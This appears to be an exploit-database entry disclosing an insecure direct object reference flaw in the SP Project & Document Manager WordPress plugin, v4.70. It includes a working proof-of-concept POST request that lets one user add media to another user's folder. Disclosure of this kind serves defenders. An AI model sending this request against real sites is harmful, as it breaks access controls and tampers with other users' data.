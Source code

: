 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add video in folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

pid=2(CHANGE HERE)&action=sp_cdm_media_save_embed&uid=3&file-name=video2&embed=22222&dlg-upload-notes=bbb
```
